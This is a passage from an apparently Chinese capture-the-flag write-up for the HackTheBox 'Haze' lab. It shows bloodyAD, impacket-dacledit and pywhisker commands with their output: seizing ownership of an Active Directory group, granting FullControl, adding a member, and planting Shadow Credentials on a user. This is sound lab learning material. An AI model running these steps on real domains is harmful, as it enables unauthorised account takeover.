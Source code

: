 可以看到**BACKUP**用户可以修改**SUPPORT**组的拥有者，而**SUPPORT**组可以修改**EDWARD**的密码和进行`Shadow Credential`攻击

接下来先将**Backup**设置为组拥有者

```
[root@kali] /home/kali/Haze  
❯ bloodyAD --host "10.xxx.xxx.xxx" -d "haze.htb" -u "Haze-IT-Backup$" -p ":735c0xxxxxxxxxxxxxxxxxxxx" set owner SUPPORT_SERVICES Haze-IT-Backup$
[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on SUPPORT_SERVICES
```

给自己加上全部权限

```
[root@kali] /home/kali/Haze  
❯ impacket-dacledit -action write -rights FullControl -principal 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' -dc-ip 10.xx.xx.xx"haze.htb/Haze-IT-Backup$" -hashes ':735c02c6xxxxxxxxxxxxxxxxxxx'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up 
[*] DACL modified successfully!
```

还要把自己加到组里面去

```
[root@kali] /home/kali/Haze/pywhisker/pywhisker (main) ⚡ 
❯ bloodyAD --host "10.xx.xx.xx" -d "haze.htb" -u "Haze-IT-Backup$" -p ":735c0XXXXXXXXXXXXXXXXXXXXXXXX" add groupMember SUPPORT_SERVICES Haze-IT-Backup$
[+] Haze-IT-Backup$ added to SUPPORT_SERVICES
```

## Shadow Credential

- [ShutdownRepo/pywhisker: Python version of the C# tool for "Shadow Credentials" attacks](https://github.com/ShutdownRepo/pywhisker)

```
[root@kali] /home/kali/Haze/pywhisker/pywhisker (main) ⚡ 
❯ python pywhisker.py -d "haze.htb" -u "Haze-IT-Backup$" -H '735c0XXXXXXXXXXXXXXXXXXXX' --target edward.martin --action add
[*] Searching for the target account
[*] Target user found: CN=Edward Martin,CN=Users,DC=haze,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: ad2dab15-1705-97ae-2a31-3e7dc76e9ae0
[*] Updating the msDS-KeyCredentialLink attribute of edward.martin
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: c00sSu5E.pfx
[+] PFX exportiert nach: c00sSu5E.pfx
[i] Passwort für PFX: nppJ5hulBJapp4MbWmei
[+] Saved PFX (#PKCS12) certificate & key at path: c00sSu5E.pfx
[*] Must be used with password: nppJ5hulBJapp4MbWmei
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```
